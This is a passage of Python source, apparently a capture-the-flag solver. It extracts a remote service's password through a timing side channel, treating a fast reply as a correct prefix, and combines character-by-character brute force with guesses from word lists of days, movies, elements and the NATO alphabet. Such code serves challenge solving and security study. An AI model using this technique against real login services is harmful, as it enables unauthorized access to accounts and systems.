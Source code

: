 ```python
            if out == b"Conne":
                raise Timeout
            self.password = password
            raise SuccessfulConnection(out.decode())
        after = time.time()
        self.r.recvuntil("Please enter your password: ")
        delta = after - before
        if delta < 0.5:
            self.password = password
            return True
        self.incorrect += 1
        return False

    def brute_force(self, password: str = ""):
        log.warning(f"Brute forcing from: {password}")
        while True:
            for c in tqdm(ALPHABET):
                if self.check(password + c):
                    password += c
                    log.debug(f"Partial: {password}")
                    break
            else:
                raise NotFound("Brute")

    def guess_words(self, words, password: str = "", fallback=True):
        for word in words:
            test = password + word
            if self.check(test):
                return test
        else:
            if fallback:
                log.warn(f"Failed to use password from {words}")
                log.warn("Falling back to bruteforce")
                return self.brute_force(password)
            else:
                return None

    def guess_words_smart(self, words, password: str = ""):
        # Napkin maths says 4 is a good number
        if len(words) < 4:
            return self.guess_words(words, password)
        first_letters = Counter(word[0] for word in words).most_common()
        if first_letters[0][1] == 1:
            return self.guess_words(words, password)
        first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
        new_s = self.guess_words(first_letters_s, password, fallback=False)
        if new_s is None:
            new_words = [word for word in words if word[0] not in first_letters_s]
            assert len(new_words) > 0
            return self.guess_words_smart(new_words, password)
        words = [word[1:] for word in words if word[0] == new_s[-1]]
        return self.guess_words_smart(words, new_s)

    def solve(self):
        try:
            password = self.guess_words_smart(days)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(movies, password)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(elements, password)
            log.info(f"Partial: {password!r}")
            password = self.guess_words_smart(nato_phonetic, password)
            log.info(f"Partial: {password!r}")
```